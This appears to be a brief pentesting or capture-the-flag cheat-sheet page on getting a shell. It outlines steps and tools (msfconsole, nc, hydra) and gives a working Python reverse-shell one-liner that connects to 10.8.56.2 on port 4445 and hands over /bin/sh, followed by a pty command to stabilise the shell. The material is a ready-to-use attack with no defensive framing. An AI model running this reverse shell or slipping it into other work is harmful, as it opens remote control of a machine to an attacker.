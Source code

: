 # Shell 

INPUT
- service:user:pass
- vulnerability
- Uploaded RShell Script
PROCESS
- Gain Access
    - Exploit Service
    - Reverse Shell
    - Web Shell
    - SSH
    - FTP
    - SMB
- Stablish Shell
    - python
TOOLS
- msfconsole
- nc
- python
- hydra
- ssh
OUPUT
- shell


## Reverse Shell
```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.56.2",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Stablish Shell   
```sh
python3 -c 'import pty;pty.spawn("/bin/bash");'
export TERM=xterm
```
















    

